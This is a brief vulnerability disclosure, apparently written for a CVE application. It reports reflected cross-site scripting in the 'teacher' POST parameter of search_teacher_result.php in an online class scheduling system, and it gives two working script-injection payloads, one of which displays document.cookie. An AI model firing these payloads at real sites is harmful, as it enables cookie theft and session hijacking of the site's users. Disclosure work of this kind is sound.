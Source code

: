 BUG_Author: joicygiore

Vulnerability File: /online_class_scheduling_system/search_teacher_result.php

Parameter "teacher" (POST), exists reflected cross site scripting vulnerability

Payload1:teacher=--><script>alert(996)</script>&semester=2nd&sy=2012-2013&save=

![image](https://github.com/joicygiore/ApplyForCVE/blob/main/1.png)

Payload2:teacher=--><script>alert(document.cookie)</script>&semester=2nd&sy=2012-2013&save=

![image](https://github.com/joicygiore/ApplyForCVE/blob/main/2.png)
